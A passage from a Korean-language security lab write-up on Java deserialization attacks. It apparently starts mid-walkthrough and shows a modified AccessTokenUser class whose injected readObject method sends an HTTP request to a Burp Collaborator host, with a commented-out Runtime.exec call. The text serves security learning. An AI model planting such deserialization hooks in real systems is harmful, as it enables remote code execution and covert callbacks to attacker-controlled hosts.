 ```java
        return username;
    }

    public String getAccessToken()
    {
        return accessToken;
    }
}
```

5. 코드를 살펴본다. Serializable 인터페이스를 구현했으므로 직렬화할 수 있는 클래스인 것을 알 수 있다. readObject 함수는 구현되어 있지 않다. (Serializable 인터페이스를 구현한 클래스는 자신의 readObject를 선언 및 구현할 수 있다.)

6. 어떻게 공격할까? 일단 바로 떠오르는 것은 AccessTokenUser 클래스에 위험한 readObject 메서드를 추가해서 컴파일한 것을 서버로 보내는 것이다. 

7. 일단 시도해본다. Burp Collaborator서버에 curl을 보내는 Java명령을 심어본다. 

다음과 같이 코딩했다. 

```java
package data.session.token;

import java.io.IOException;
import java.io.Serializable;
import java.net.URI;
import java.net.http.HttpClient;
import java.net.http.HttpRequest;
import java.net.http.HttpResponse;

public class AccessTokenUser implements Serializable
{
    private final String username;
    private final String accessToken;

    public AccessTokenUser(String username, String accessToken)
    {
        this.username = username;
        this.accessToken = accessToken;
    }

    public String getUsername()
    {
        return username;
    }

    public String getAccessToken()
    {
        return accessToken;
    }
    
	private void readObject(java.io.ObjectInputStream stream) throws IOException, ClassNotFoundException, InterruptedException {
		stream.defaultReadObject();
//		Runtime.getRuntime().exec(this.name);
		String url = "https://2svr1jmg0fvhi8ei4e0glnvcy34uskg9.oastify.com";
		var client = HttpClient.newHttpClient(); //java 11
		var request = HttpRequest.newBuilder(URI.create(url))
				.GET()
				.build(); 
		HttpResponse<String> res = client.send(request, HttpResponse.BodyHandlers.ofString());
		System.out.println(res);
	}
}
```
